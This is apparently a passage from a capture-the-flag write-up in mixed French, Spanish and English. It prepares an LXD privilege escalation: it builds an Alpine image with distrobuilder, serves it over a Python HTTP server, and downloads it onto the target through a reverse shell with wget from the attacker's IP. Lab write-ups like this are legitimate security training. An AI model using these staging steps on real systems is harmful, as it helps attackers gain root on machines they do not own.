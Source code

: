 Une fois cela fait tu peux installer distrobuilder, tu clones et tu fais un simple make dans le dossier.

```bash
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
```

After the build is complete let's download the Alpine YAML file and build it... que estoy hasta las narizes de traducir !

CUIDADITO ! Aqui el Write-up dice que la version es 3.8 pero no esta al dia, mira en https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml en el campo **same_as** para saber cual es el numero de version.

```bash
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.12
```

Despues de esto tenemos dos ficheros llamados **lxd.tar.xz** y **rootfs.squashfs** que han sido creados en el folder.

Nous devrons maintenant transférer ces fichiers vers le système cible via l'utilisation d'un serveur HTTP Python.
Exécutez la commande suivante localement sur le même dossier.

```bash
python3 -m http.server 8000
```

Revenez ensuite au shell inversé sur le système cible et téléchargez les fichiers.

```bash
wget http://10.10.15.253:8000/lxd.tar.xz
wget http://10.10.15.253:8000/rootfs.squashfs
```


